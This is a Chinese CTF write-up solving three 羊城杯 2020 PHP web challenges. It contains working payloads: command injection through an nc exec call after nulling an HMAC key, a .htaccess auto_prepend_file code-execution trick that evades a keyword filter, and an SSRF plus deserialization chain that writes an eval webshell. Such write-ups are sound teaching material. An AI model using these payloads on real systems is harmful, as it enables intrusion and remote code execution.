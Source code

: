 ## [羊城杯 2020]Blackcat

```php
if(empty($_POST['Black-Cat-Sheriff']) || empty($_POST['One-ear'])){
    die('谁！竟敢踩我一只耳的尾巴！');
}

$clandestine = getenv("clandestine");

if(isset($_POST['White-cat-monitor']))
    $clandestine = hash_hmac('sha256', $_POST['White-cat-monitor'], $clandestine);


$hh = hash_hmac('sha256', $_POST['One-ear'], $clandestine);

if($hh !== $_POST['Black-Cat-Sheriff']){
    die('有意瞄准，无意击发，你的梦想就是你要瞄准的目标。相信自己，你就是那颗射中靶心的子弹。');
}

echo exec("nc".$_POST['One-ear']);
```

> hash_hmac — 使用 HMAC 方法生成带有密钥的散列值
>
> ```
> hash_hmac(
>     string $algo,
>     string $data,
>     string $key,
>     bool $binary = false
> ): string
> ```
>
> - `algo`
>
>   要使用的散列算法名称，例如："md5"、"sha256"、"haval160,4"等。
>
> - `data`
>
>   要进行散列运算的消息。       
>
> - `key`
>
>   使用 HMAC 生成信息摘要时所使用的密钥。       
>
> - `binary`
>
>   设置为 **`true`** 输出原始二进制数据，设置为 **`false`** 输出小写 16 进制字符串。 

hash_hamc处理的是数组时，返回null

```
$clandestine = hash_hmac('sha256', $_POST['White-cat-monitor'], $clandestine);
```

$clandestine的值就是null，这样我们就可以让$hh等于$_POST['Black-Cat-Sheriff']

payload

```php
<?php

echo hash_hmac('sha256',';cat f*',"");
```

```
Black-Cat-Sheriff=34f325915b5364676ea279c70063955267e6d46af6ad76c9723750a8f3f2954e&One-ear=;cat f*&White-cat-monitor[]=1
```

## [羊城杯 2020]easyphp

```php
<?php
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    if(!isset($_GET['content']) || !isset($_GET['filename'])) {
        highlight_file(__FILE__);
        die();
    }
    $content = $_GET['content'];
    if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) {
        echo "Hacker";
        die();
    }
    $filename = $_GET['filename'];
    if(preg_match("/[^a-z\.]/", $filename) == 1) {
        echo "Hacker";
        die();
    }
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    file_put_contents($filename, $content . "\nHello, world");
?>
```

首先，直接上传一个php文件上去

```
filename=1.php&content=<?php system('ls');//
```

发现直接将我们写入的内容输出了，说明当前目录不能解析php文件

> 行不通思路：
>
> 尝试写入index.php，写不进去
>
> 通过`.htaccess`文件，使png当作php解析，上传第二次时，会将文件删除

正确的思路

htaccess把自己指定当做 php文件处理

> `.htaccess` 中有 `#` 单行注释符, 且支持 `\`拼接上下两行

```
php_value auto_prepend_file 1.txt 在主文件解析之前自动解析包含1.txt的内容
php_value auto_append_file 2.txt 在主文件解析后自动解析1.txt的内容
```

参考：[[CTF].htaccess的使用技巧总结](http://t.csdnimg.cn/Nyofr)

这里过滤了file，利用\进行拼接就行了

payload

`换行用%0a，#号用%23`

```
php_value auto_prepend_fi\
le .htaccess
#<?php system("ls");?>\
```

```
?content=php_value auto_prepend_fi\%0ale .htaccess%0a%23<?php system("ls");?>\&filename=.htaccess
```

## [羊城杯 2020]easyser

根据提示得到，`/star1.php/`路径

有一个输入框，可以得到百度的网页，猜测是SSRF漏洞

```
<!--  小胖说用个不安全的协议从我家才能进ser.php呢！  !-->
```

根据这个提示，查看ser.php

```php
<?php
error_reporting(0);
if ( $_SERVER['REMOTE_ADDR'] == "127.0.0.1" ) {
    highlight_file(__FILE__);
} 
$flag='{Trump_:"fake_news!"}';

class GWHT{
    public $hero;
    public function __construct(){
        $this->hero = new Yasuo;
    }
    public function __toString(){
        if (isset($this->hero)){
            return $this->hero->hasaki();
        }else{
            return "You don't look very happy";
        }
    }
}
class Yongen{ //flag.php
    public $file;
    public $text;
    public function __construct($file='',$text='') {
        $this -> file = $file;
        $this -> text = $text;
        
    }
    public function hasaki(){
        $d   = '<?php die("nononon");?>';
        $a= $d. $this->text;
         @file_put_contents($this-> file,$a);
    }
}
class Yasuo{
    public function hasaki(){
        return "I'm the best happy windy man";
    }
}
```

链挺简单的

``` 
GWHT::__toString --> Yongen::hasaki
```

payload

```php
<?php
class GWHT{
    public $hero;
    public function __construct(){
        $this->hero = new Yongen;
    }
}
class Yongen{ //flag.php
    public $file = 'php://filter/convert.base64-decode/resource=1.php';
    public $text = 'aaaPD9waHAgQGV2YWwoJF9QT1NUWzBdKTs/Pg==';
}
$a = new GWHT();
echo serialize($a);
```

arjun扫描传入的参数为c和path

![image-20240308213145058](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240308213145058.png)

最终payload

```
/star1.php/star1.php?path=http://127.0.0.1/ser.php&c=O:4:"GWHT":1:{s:4:"hero";O:6:"Yongen":2:{s:4:"file";s:49:"php://filter/convert.base64-decode/resource=1.php";s:4:"text";s:39:"aaaPD9waHAgQGV2YWwoJF9QT1NUWzBdKTs/Pg==";}}
```

访问1.php,密码是0